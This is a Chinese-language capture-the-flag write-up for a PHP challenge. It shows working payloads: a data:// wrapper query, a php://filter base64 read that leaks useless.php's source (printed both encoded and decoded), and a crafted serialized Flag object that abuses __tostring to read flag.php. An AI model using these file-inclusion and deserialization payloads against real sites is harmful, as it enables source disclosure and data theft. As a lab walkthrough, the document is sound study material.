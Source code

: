 结合data://和php://协议，或许可以执行指定php代码。

试了一下不行，可能禁用了。

不过其实还可以用php://协议读取指定文件信息并用base64过滤器来显示：

```
php://filter/read=convert.base64-encode/resource=filename
```

这里提示useless.php，那就用useless.php

Payload:

?text=data://text/plain,welcome to the zjctf
&file=php://filter/read=convert.base64-encode/resource=useless.php

得到：

PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=

用base64解码器得到useless.php源码：

echo '' | base64 -D


```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>
```

利用__tostring魔术方法的特性，再加上我们有一个echo unserialized(password)，我们要将password构造成一个Flag类，然后让$file=flag.php，然后序列化：

```php
<?php
    class Flag{
        public $file = 'flag.php';
    }

    $a = new Flag();
    echo urlencode(serialize($a)); 
?>
```

O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D%
